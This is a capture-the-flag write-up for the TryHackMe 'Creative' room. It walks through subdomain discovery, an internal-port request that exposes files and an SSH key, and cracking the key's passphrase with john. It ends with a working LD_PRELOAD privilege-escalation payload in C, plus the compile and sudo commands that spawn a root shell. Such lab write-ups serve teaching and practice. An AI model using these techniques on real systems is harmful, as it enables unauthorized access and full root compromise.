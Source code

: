 # Creative THM Room

I first enumerated using `nmap -sV <MACHINE-IP>` and found port 22, port 80, and port 1337 was open. I went to the webpage and found this: 

![Screenshot 2025-03-24 193049](https://github.com/user-attachments/assets/06625b0b-526b-4e22-814d-eba5be866179)

When I tried to enumerate for directories wit gobuster I didn't get anything interesting. On the other hand, when I enumerated for subdomains using `gobuster dns -d creative.thm -w directory-list-2.3-medium.txt -t 50`
I found beta.creative.thm which brings us to a page that looks like this: 

![Screenshot 2025-03-24 195827](https://github.com/user-attachments/assets/97d7b111-5319-47dd-9620-775c0b326bee)

My first thought was to enter localhost:1337, doing so I was able to get a directory listing for the webserver. Clicking on it did nothing so I went back to the page to
start messing around. 

![Screenshot 2025-03-24 200558](https://github.com/user-attachments/assets/55425be4-7bc8-407b-845c-4814c184db9f)

I found a user name saad and after typing this in I was able to see user.txt was there, the only thing I had to do to read user.txt was append /user.txt to the URL.

After finding the user flag the next step was to escalate privleges and get the root flag, I noticed in /home/saad there was /.ssh and then and then a private key inside 
/id_rsa.

To use the private key I saved it to a file on my linux machine titled id_rsa, when I tried to connect using `ssh -i id_rsa saad@creative.thm` I had to provide a passphrase.
To find the passphrase I copied the contents of id_rsa to id_rsa.hash using `ssh2john id_rsa > id_rsa.hash` Then I used `john id_rsa.hash --wordlist=./rockyou.txt` This was
able to find the passphrase I needed to login

![Screenshot 2025-03-24 202531](https://github.com/user-attachments/assets/e5218f18-9c50-49ca-a801-f8576fde2acb)

This next part was very tricky for me but I eventually found out I needed to do `cat .bash_history` to figure out what password Saad was actually using. This is important
because the first command I wanted to run was `sudo -l` to figure out where we had sudo privileges. Using the command I found out that we can use sudo on /usr/bin/ping.

Doing more research though it seems that its not really that useful, it seems that `env_keep+=LD_PRELOAD` was actually what I should've been focusing on here. 
I was able to create a file on the machine called shell.c in the /tmp directory with this code:


```c
#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>  // Add this to use setuid and setgid


void _init() {

    unsetenv("LD_PRELOAD");
    
    setgid(0);  // Set group ID to root (0)
    
    setuid(0);  // Set user ID to root (0)
    
    system("/bin/sh");  // Execute /bin/sh to get a shell
    
}
```

I ran  `gcc -fPIC -shared -o shell.so shell.c -nostartfiles` and `sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping.` After running the ladder command I was able to 
extract the root.txt flag from the /root directory. 

